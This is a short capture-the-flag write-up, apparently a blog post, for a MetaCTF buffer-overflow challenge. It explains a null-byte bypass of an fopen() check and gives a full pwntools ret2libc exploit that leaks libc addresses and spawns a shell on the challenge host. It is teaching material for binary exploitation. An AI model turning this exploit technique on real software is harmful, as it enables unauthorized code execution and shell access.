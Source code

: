 the bug is a buffer overflow, we can control the `%rip` on the first input, but we have to pass the `fopen()`. since the program will exit if the file that we input does not exist. in order to bypass it, we can use `\x00` to terminate the filename. after we control the `%rip`
we can just be doing a ret2libc attack to get a shell.<br/>
this is my exploit:
{% highlight python %}

#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/metaCTF/binex/bb2/bb2")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)
    main = 0x000000000401192
    puts_got = 0x00000404018
    pop_rdi = 0x000000000040133b
    ret = 0x0000000000401016
    puts_plt = 0x000000000401030
    
    p = "/etc/passwd\x00"
    p += "AAAA"
    p += "A" * 40
    p += p64(pop_rdi)
    p += p64(puts_got)
    p += p64(puts_plt)
    p += p64(main)
    r.sendlineafter("copy\n",p)
    r.sendlineafter("file\n","/tmp/x")
    r.recvuntil("successfully.\n")
    leak = u64(r.recvline().replace('\n',"\x00").ljust(8, "\x00"))
    syste = leak -0x2cf50
    binsh = leak + 0x10fc09
    p = "/etc/passwd\x00"
    p += "AAAA"
    p += "A" * 40
    p += p64(pop_rdi)
    p += p64(binsh)
    p += p64(syste)
    r.sendline(p)
    r.sendline("/tmp/x")
    log.info("leak: " + hex(leak))
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("host1.metaproblems.com", 5152)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)
